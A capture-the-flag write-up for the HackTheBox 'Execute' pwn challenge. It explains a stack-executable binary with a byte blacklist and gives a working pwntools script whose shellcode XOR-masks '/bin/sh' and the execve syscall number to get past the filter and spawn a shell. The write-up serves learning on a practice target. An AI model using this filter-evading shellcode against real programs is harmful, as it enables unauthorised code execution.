





# Execute - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/Execute


## Solution

First, I checked binary information:

<p align="center">

</p>
<p align="center">

</p>

Here I noticed that NX-bit is disabled, which means that the program can execute code located on the stack.
There is a 62-byte buffer created in the code, but only 60 bytes are read. Also, there is a list of *badchars* that I needed to avoid in my shellcode. At the end of `main`, there is code that executes contents of the buffer. `check` checks if any bytes from blacklist are in shellcode.

<p align="center">

</p>

The following bytes are not allowed here:

| Byte | Description                                                          |
| ---- | -------------------------------------------------------------------- |
| 0x3b | 59 (execve syscall number)                                           |
| 0x54 | `push rsp`                                                           |
| 0x62 | letter **b**                                                         |
| 0x69 | letter **i**                                                         |
| 0x6e | letter **n**                                                         |
| 0x73 | letter **s**                                                         |
| 0x68 | letter **h**                                                         |
| 0xf6 | some variations of **mul**, **imul**, **div**, **idiv** instructions |
| 0xd2 | some variations of **sub** ; `xor rdx, rdx`                          |
| 0xc0 | `xor rax, rax`                                                       |
| 0x5f | `pop rdi`                                                            |
| 0xc9 | `leave`                                                              |
| 0x66 | letter **f** ; `xor rsi, rsi`                                        |
| 0x6c | letter **l**                                                         |
| 0x61 | letter **a**                                                         |
| 0x67 | letter **g**                                                         |

The table above is the reason why I needed to mask my "/bin/sh" string:

<p align="center">

</p>

After a long time spent shellcoding, I finally did this:

```python
from pwn import *

context.arch = "amd64"

p = process('./execute')

shellcode = asm('''
	mov rbx, 0x422a316d2c2b206d
	mov r9, 0x4242424242424242
	xor rbx, r9
	push rbx
	mov rdi, rsp
	and rsi, 0
	and rdx, 0
	and rax, 0
	mov al, 0x7a
	xor al, 0x41
	syscall
''')

shell = ''.join(f'{b:02x}' for b in shellcode)
payload = bytes.fromhex(shell)
p.sendline(payload)
p.interactive()
```

Usually, *null bytes* (0x00 as in `and rsi, 0` etc.) and *new line byte*s (0x0a) cannot be used in shellcodes because functions like `gets`, `scanf`, and so on use *null bytes* to terminate the string and will cut the shellcode. But there is a `read` function, that does not cut the string with *null byte*s.
Next, I tested the script on the local copy of binary:

<p align="center">

</p>

It worked locally, so I then tried it on the remote server:

<p align="center">

</p>
